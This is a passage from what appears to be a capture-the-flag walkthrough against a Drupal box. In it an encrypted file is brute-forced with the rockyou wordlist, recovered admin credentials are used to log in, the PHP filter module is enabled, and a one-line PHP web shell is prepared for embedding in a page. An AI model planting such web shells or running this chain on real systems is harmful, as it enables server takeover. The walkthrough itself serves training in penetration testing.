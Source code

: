 In this case we are using the arguments `-s` because our encrypted file
is salted and `-b64` because we are running the decryption against the
raw Base64 encoded file from the FTP site. to run it against the one we
decoded ourselves we could also use the command:

``` 
root@kali: python decrypt-openssl-bruteforce.py -i drupal.txt.enc -w /usr/share/wordlists/rockyou.txt -o drupal.txt -s
```

Looking at the contents of the plain text file:

``` 
root@kali: cat drupal.txt
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```

Nice! We found some Drupal credentials, time to log in. Browse to the
site and enter the credentials `admin:PencilKeyboardScanner123`

![219840514.png]({{site.baseurl}}/Images/219840514.png)

Looking around the administrator section we can see that there is
nothing particularly interesting going on, and no juicy data to get us
any further. We are going to have to get in ourselves.

Like most CMS systems Drupal includes modules to allow direct PHP code
execution for those more advanced CMS admins. We can use that to our
advantage to get command execution against the server:

Under the `Modules` menu item, scroll down and check the box for
`PHP filter` then scroll all the way to the bottom and click
`save configuration`

![219971591.png]({{site.baseurl}}/Images/219971591.png)

Once we have done that we can re-use a very common PHP command execution
one liner and embed it on any page:

``` 
<pre><?php system($_REQUEST['cmd']) ?></pre>
```

  

From the top menu click `Structure` then `Blocks`

![219906058.png]({{site.baseurl}}/Images/219906058.png)
